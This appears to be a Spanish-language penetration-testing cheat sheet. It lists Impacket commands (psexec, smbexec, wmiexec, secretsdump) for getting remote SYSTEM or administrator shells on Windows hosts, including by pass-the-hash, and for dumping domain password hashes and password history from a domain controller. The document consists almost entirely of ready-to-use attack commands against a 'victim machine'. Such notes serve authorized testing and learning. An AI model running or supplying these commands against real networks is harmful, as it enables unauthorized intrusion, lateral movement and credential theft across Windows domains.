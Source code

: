 # Psexec

Tags: #Windows #DC #PsExec #WmiExec #SmbExec #Impacket 

```bash 
- Puerto 445 (SMB): Necesario para la ejecución remota de comandos utilizando el protocolo SMB.
- Puerto 135 (RPC): Puede ser necesario para la autenticación remota y la gestión de las conexiones.
```

## Impacket-Psexec

```powershell
# Ingresar con una consola 'CMD' al usuario 'NT Authority\System'
❯ impacket-psexec domain.corp/Administrator:Password@IP cmd.exe     
❯ impacket-psexec domain.corp/Administrator@IP cmd.exe 

❯ impacket-psexec administrator@IP cmd.exe      

	# user = Usuario Administrator'
	# IP = Dirección IP de la maquina víctima 
	# cmd = Ejecuta una consola 'CMD' al ingresar

❯ impacket-psexec domain.corp/'administrator'@IP -hashes :NT     # Hacer 'PtH' y obtener un CMD
```

## Impacket-Smbexec

```bash 
❯ impacket-smbexec 'administrator'@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como 'NT Authority\System'
```

## Impacket-Wmiexec 

```bash 
Otra herramienta por si no funcion 'PsExec'
❯ impacket-wmiexec 'administrator'@IP -hashes LM:NT     # Utilizar 'Pass-The-Hash' para ingresar como administrator

❯ impacket-wmiexec domain.corp/administrator@IP -no-pass -hashes 'LM:NT'
```

## Impacket-SecretDump

```bash 
❯ impacket-secretdump -just-dc domain.corp/'user':passwd@IP -history -pwd-last-set   # Muestra el historial y cuando fue configurada la última contraseña
```